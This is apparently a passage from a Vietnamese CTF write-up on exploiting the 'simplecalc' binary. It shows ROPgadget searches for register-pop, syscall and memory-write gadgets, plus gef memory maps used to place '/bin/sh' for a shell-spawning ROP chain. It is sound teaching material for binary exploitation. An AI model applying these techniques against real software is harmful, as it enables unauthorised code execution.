 ```bash
┌──(grass㉿kali)-(~/pwn/insomiac/07-bof_static/bkp16_simplecalc)
└─$ ROPgadget --binary simplecalc | grep "pop rax ; ret"
0x000000000044db34 : pop rax ; ret

┌──(grass㉿kali)-(~/pwn/insomiac/07-bof_static/bkp16_simplecalc)
└─$ ROPgadget --binary simplecalc | grep "pop rsi ; ret"
0x0000000000437aa9 : pop rdx ; pop rsi ; ret

┌──(grass㉿kali)-(~/pwn/insomiac/07-bof_static/bkp16_simplecalc)
└─$ ROPgadget --binary simplecalc | grep "pop rdi ; ret"
0x0000000000401b73 : pop rdi ; ret
```

Tiếp theo là tìm `syscall`. Lưu ý là lời gọi hệ thống trong kiến trúc `x86_64` là `syscall` còn trong `x86` là `int 0x80`.
```bash
0x0000000000400488 : syscall
```

Để ghi được chuỗi "/bin/sh" vào một địa chỉ bất kì bên trong bộ nhớ, ta cần tìm thêm một ROPgadget nữa
```bash
┌──(grass㉿kali)-(~/pwn/insomiac/07-bof_static/bkp16_simplecalc)
└─$ ROPgadget --binary simplecalc | grep "mov" | grep "ret" | grep "ptr"
0x000000000044526e : mov qword ptr [rax], rdx ; ret
```
Ropgadget này hoạt động như sau: Lấy giá trị bên trong \$rdx ghi vào địa chỉ đang nằm bên trong thanh ghi \$rax.
Vậy chúng ta sẽ ghi "/bin/sh" vào đâu?
Kiểm tra memmory mappings khi chương trình đang hoạt động (lạy chúa thằng này k bật PIE)
```bash
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004c1000 0x0000000000000000 r-x /home/grass/pwn/insomiac/07-bof_static/bkp16_simplecalc/simplecalc
0x00000000006c0000 0x00000000006c3000 0x00000000000c0000 rw- /home/grass/pwn/insomiac/07-bof_static/bkp16_simplecalc/simplecalc
0x00000000006c3000 0x00000000006c6000 0x0000000000000000 rw- [heap]
0x00000000006c6000 0x00000000006e9000 0x0000000000000000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
gef➤  x/20g 0x00000000006c0000
0x6c0000:	0x200e41280e41300e	0xe42100e42180e42
0x6c0010:	0xb4108	0xd0a40000002c
0x6c0020:	0x6cfffd1fd0	0x80e0a69100e4400
0x6c0030:	0xb42080e0a460b4b	0xe470b49080e0a57
0x6c0040:	0x8	0xd0d400000024
0x6c0050:	0x144fffd2010	0x5a020283100e4500
0x6c0060:	0xee3020b41080e0a	0x8
0x6c0070:	0xd0fc00000064	0x26cfffd2138
0x6c0080:	0xe47028f100e4200	0x48d200e42038e18
0x6c0090:	0x300e41058c280e42	0x440783380e410686
gef➤  x/20g 0x00000000006c1000
0x6c1000:	0x0	0x0
0x6c1010:	0x0	0x431070
0x6c1020:	0x430a40	0x428e20
0x6c1030:	0x4331b0	0x424c50
0x6c1040:	0x42b940	0x423740
0x6c1050:	0x4852d0	0x4178d0
0x6c1060:	0x0	0x0
0x6c1070 <_dl_tls_static_size>:	0x1180	0x0
0x6c1080 <_nl_current_default_domain>:	0x4945f7	0x0
0x6c1090 <locale_alias_path.10061>:	0x49462a	0x6c32a0
```